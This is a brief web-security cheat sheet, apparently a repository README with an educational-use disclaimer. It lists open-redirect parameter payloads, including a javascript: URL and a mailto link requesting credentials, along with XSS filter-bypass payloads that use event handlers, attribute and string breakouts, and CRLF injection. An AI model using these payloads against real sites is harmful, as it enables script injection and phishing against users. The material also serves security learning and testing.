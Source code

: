 Warning
==============

All the information provided on this site is for educational purposes only.

The site or the authors are not responsible for any misuse of the information.

You shall not misuse the information to gain unauthorized access and/or write malicious programs.

These information shall only be used to expand knowledge and not for causing malicious or damaging attacks.

Open Redirect
==============

/?SomeParam=https://TheDomainYouAreOne&TheirParam=javascript://prompt(1)

/?SomeParam=https://TheDomainYouAreOne&TheirParam=mailto://SomeoneEvil@SOMEDOMAIN?Subject=How about that!%26Body=Please send me credentials

/?SomeParam=https://TheDomainYouAreOne&TheirParam=https://www.google.com

Did you break out of a tag and script, iframe, img, a, &gt; etc are all blocked?
==============

Did they block onerror onload onclick? Try something like this:

&lt;XXXXXXX ondblclick=prompt(1)&gt;Some Text, Don't even care to end the tag either.

" onclick="prompt(1)

Don't forget the injection might not be a form tag but in the javascript.
==============
";prompt(1);//

';prompt(1);//

What if they are in a function? Break out of it. Count the brackets, etc to kill the function.

"};prompt(1);//

Don't forget %0D%0A if you need a new line

